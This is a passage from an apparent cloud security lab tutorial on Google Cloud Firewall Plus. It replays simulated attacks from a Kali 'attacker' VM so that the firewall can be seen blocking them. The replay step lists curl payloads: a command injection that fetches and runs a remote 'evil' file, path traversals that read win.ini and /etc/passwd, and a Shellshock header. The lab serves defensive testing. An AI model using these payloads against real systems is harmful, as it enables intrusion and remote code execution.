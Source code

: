     gcloud beta compute network-firewall-policies rules update 11 \
        --action=apply_security_profile_group \
        --firewall-policy=$PREFIX-global-policy \
        --global-firewall-policy \
        --project=$PROJECT_ID \
        --security-profile-group=//networksecurity.googleapis.com/organizations/$ORG_ID/locations/global/securityProfileGroups/$PREFIX-profile-group
    ```

### Replay threats

Rerun the previous threats again to see the actions taken by Cloud Firewall Plus.

1. In Cloud Shell, open an SSH session to the `attacker` VM (password: `kali`).
    
    ```
    gcloud compute ssh paloalto@$PREFIX-attacker --zone=$ZONE --project=$PROJECT_ID
    ```

2. From the `attacker` VM, simulate sudo-threats to the `victim` (`10.0.0.20`) VM.

    ```
    curl "http://10.0.0.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://10.0.0.20/?item=../../../../WINNT/win.ini -m 5
    curl http://10.0.0.20/cgi-bin/../../../..//bin/cat%20/etc/passwd -m 5
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' -m 5 http://10.0.0.20/cgi-bin/test-critical -m 5
    ```

3. Attempt to download a sudo-malicious file from the internet. 

    ```
    wget www.eicar.org/download/eicar.com.txt --tries 1 --timeout 2
    ```
    > :bulb: **Objective** <br>
    > The simulated threats from the `attacker` should fail.  This is because the Firewall Plus service is preventing the exploits from reaching the `victim` machine.
    <br>

### View threats

View the actions taken by the Firewall Plus service directly within the Google Cloud console. 

1. In the Google Cloud console, go to **[Network Security → Threats](https://console.cloud.google.com/net-security/threats/)**.

    <img src="images/logs.png" alt="logs.png"  width="100%" />
    <br>

